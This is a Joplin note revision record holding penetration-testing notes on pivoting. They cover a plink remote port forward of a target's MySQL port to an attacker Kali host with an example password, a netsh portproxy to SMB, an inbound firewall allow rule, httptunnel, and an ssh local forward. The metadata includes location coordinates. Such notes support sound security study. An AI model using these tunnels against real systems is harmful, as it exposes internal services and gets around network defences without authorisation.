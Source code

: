 id: 2ffe46d523e542f688c29bab156ef602
parent_id: 
item_type: 1
item_id: 031a8c2867cc4bc78a01f92e5b076d83
item_updated_time: 1642342397044
title_diff: "[{\"diffs\":[[1,\"PLINK & Others\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":14}]"
body_diff: "[{\"diffs\":[[1,\"Like Putty, use for remote port forwarding on Windows machine\\\n\\\nRun on the target JMPHOST Windows machine; to\\\n\\\n> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R $KALIIP0:$KALIPORT:127.0.0.1:3306 $KALIIP\\\n\\\nNetsh (Installed by default in every Windows system)\\\n\\\nCan be used only if \\\"IP Helper\\\" service is running and IPv6 is enabled on the machine\\\n\\\n> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.190.10 connectport=445 connectaddress=172.16.190.5\\\n\\\nVerify it is on\\\n\\\n> netstat -anp TCP | find \\\"4455\\\"\\\n\\\nTo enable the firewall to allow traffic:\\\n\\\n> netsh advfirewall firewall add rule name=\\\"forward\\\\_port\\\\_rule\\\" protocol=TCP dir=in localip=192.168.190.10 localport=4455 action=allow\\\n\\\n<ins>Httptunnel - tunnels a data stream in http requests</ins>\\\n\\\nLinux Kali:\\\n\\\n> htc --forward-port 8080 JUMPHOSTIP:1234\\\n\\\nHTTP jumphost:\\\n\\\n> hts --forward-port localhost:8888 1234\\\n\\\nHTTP jumphost:\\\n\\\n> ssh -L 0.0.0.0:8888:TARGETIP:TARGETPORT user@127.0.0.1\\\n\\\nGateway finder -- find router to the internet\\\n\\\nhttps://github.com/pentestmonkey/gateway-finder\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1056}]"
metadata_diff: {"new":{"id":"031a8c2867cc4bc78a01f92e5b076d83","parent_id":"fa5212f3e7624b48b87153f3e4182dd1","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":821170205906,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T14:15:29.513Z
created_time: 2022-01-16T14:15:29.513Z
type_: 13